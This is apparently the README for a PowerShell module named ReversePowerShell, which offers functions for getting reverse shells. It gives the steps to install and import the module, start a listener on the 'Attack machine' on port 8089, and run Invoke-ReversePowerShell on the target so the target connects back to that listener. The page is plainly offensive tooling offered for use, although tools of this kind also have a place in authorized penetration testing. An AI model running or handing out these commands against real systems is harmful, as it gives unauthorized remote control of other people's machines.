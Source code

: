 # ReversePowerShell
Functions that can be used to gain Reverse Shells with PowerShell

Install this module by placing the cloned folder "ReversePowerShell" inside the following directory location.
 C:\Users\$env:USERNAME\Documents\WindowsPowerShell\Modules\ReversePowerShell

Once there it can be imported into a PowerShell session using the following command.
```powershell
Import-Module ReversePowerShell
```

You can also copy and paste the functions into your PowerShell session so the cmdlets become available to run.

The below command can be executed to start a listener on the Attack machine on port 8089
```powershell
Start-Listener -Port 8089
```

The below command is to be issued on the Target Machine to connect to the listener on the target over port 8089
```powershell
Invoke-ReversePowerShell -IpAddress <TargetIPv4Address> -Port 8089
```
